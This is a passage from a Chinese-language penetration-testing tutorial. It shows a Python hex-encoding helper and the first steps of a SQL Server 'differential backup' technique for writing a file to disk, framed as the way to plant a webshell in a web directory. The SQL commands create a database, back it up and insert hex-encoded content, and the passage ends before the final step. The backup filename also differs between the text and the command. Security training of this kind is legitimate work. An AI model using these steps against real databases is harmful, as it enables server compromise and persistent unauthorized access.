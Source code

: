 ```php
15. def b2a(filename):  
16.     with open(filename,'rb') as f:  
17.         hexstr=binascii.b2a\_hex(f.read())  
18.         out = bytes("0x", encoding='utf-8')  
19.         out = out + hexstr  
20.         print(out)  
21.           
22. **if** \_\_name\_\_=="\_\_main\_\_":  
23.     filename  = sys.argv\[1\]  
24.     **if** os.path.exists(filename):  
25.         b2a(filename)  
26.     **else**:  
27.         str2hex(filename)  
```

比如将字符串 "VulnTest" 转为 16 进制串：

```php
1.  D:\\tools\\sqlhack>python s2bin.py VulnTest  
2.  b'0x56756c6e54657374'
```

### 2.3.1 场景一：利用差异备份获取 webshell

接下来就尝试使用 SQL 语句来将字符串内容 VulnTest 写入 c 盘的根目录（后续根据需要，写入 web 目录即可），文件名为 vuln.txt，使用脚本将路径 c:\\vuln.txt 转为 16 进制串：

```php
1.  0x633a5c76756c6e2e747874  
```

设置一个备份文件名 c:\\db.bak，通用要将其转为 16 进制：

```php
1.  0x633a5c64622e62616b  
```

然后开始差异备份，可以先创建一个数据库，减小备份的体积：

```php
1.  create database vulntest;  
2.  use vulntest;  
```

第一步：备份数据库到 c:\\db.bak:

```php
1.  backup database vulntest to disk = 'c:\\ddd.bak'  
```

第二步：创建一个表 vulntest：

```php
1.  create table \[dbo\].\[vulntest\] (\[cmd\] \[image\]);    
```

第三步：将文件内容插入到数据表中：

```php
1.  insert into vulntest(cmd) values(0x56756c6e54657374);  
```
